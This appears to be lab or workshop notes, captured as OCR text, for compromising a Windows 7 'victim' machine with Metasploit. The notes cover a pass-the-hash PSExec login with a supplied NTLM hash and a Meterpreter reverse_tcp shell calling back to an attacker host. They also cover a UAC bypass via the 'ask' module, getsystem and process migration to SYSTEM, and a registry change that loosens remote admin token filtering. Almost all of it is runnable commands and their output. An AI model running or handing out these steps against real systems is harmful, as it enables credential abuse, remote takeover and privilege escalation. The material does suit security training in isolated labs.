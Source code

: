 set SMBUser Workshop
 
set SMBPass aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
 
set payload windows/meterpreter/reverse_tcp
 
set RHOST 192.168.10.129                      
 
set LHOST 192.168.10.128
 
set LPORT 5678
 
exploit



#########################
# PSExec not working??? #
#########################
Quick note:
If PSExec is not working then you may have to do the following to get it to work

use exploit/windows/local/ask
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7799
exploit
 
 
meterpreter > getuid
Server username: win7-64-victim\Workshop

meterpreter > getsystem
...got system (via technique 1).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
 
--------------------------------------------------------
 
meterpreter > ps                (search for a process running as NT AUTHORITY\SYSTEM)
 
meterpreter > migrate 2800      (your process id WILL NOT be 2800, but make sure you use one that is running at NT AUTHORITY\SYSTEM)

- We use the shell command to get to the command prompt so we can add a registry key.
 
meterpreter > execute -c -H -f cmd -a "/k" -i
reg /?
 
 
- Created a registry field to the Victim computer, this will allow us to access the machine using and exploit via PSEXEC.
 
C:\Windows\system32> reg ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system  /v LocalAccountTokenFilterPolicy  /t REG_DWORD  /d  1

